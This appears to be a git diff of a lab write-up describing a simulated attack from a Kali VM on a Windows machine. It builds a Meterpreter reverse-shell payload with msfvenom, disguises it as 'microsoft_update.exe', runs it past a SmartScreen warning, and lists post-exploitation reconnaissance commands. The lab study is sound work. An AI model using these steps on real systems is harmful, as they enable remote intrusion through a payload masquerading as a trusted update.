

attack-walkthrough.md progressing

diff --git a/docs/attack-walkthrough.md b/docs/attack-walkthrough.md
@@ -24,10 +24,12 @@ This is document details the simulated attack from the **Kali Linux Attacker VM*
 2. List the available payloads and create one for exploit
     ```bash
     msfvenom -l payloads
-
-    msfvenom -p windows/c64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=3344 -f exe -o microsoft_update.exe
     ```
 ![List the payloads](../screenshots/list_the_payloads.png)
+
+    ```bash
+    msfvenom -p windows/c64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=3344 -f exe -o microsoft_update.exe
+    ```
 ![Payload Created](../screenshots/payload_created.png)
 
 3. Set up a listener
@@ -68,4 +70,27 @@ Open another terminal in Linux and use python to establish a temporary server
     - Click `microsoft_update.exe` for download 
 
 ![Malware downloaded](../screenshots/malware_downloaded.png)
+
+3. Malware Execution
+    - Double Click `Downloads/microsoft_update.exe` in Windows
+    - Click `Run` if prompt `SmartScreen can't be reached right now`
+    - Open `Command Prompt` with administrator privilege
+    - Type the following command
+    ```bash
+    C:\Windows\system32>nestat -anob
+    ```
+![Malware Running](../screenshots/malware_running_verification.png)
+
+4. Post-Exploitation / Command & Control
+When the malware is executed successfully, a reverse shell can be opened for command and control in Kali. 
+Go back to Kali, Meterpreter is ready for ongoing invasion. The following commands were executed in the reverse shell 
+```bash
+shell
+
+whoami
+ipconfig
+systeminfo
+net user
+net localgroup
+```
 
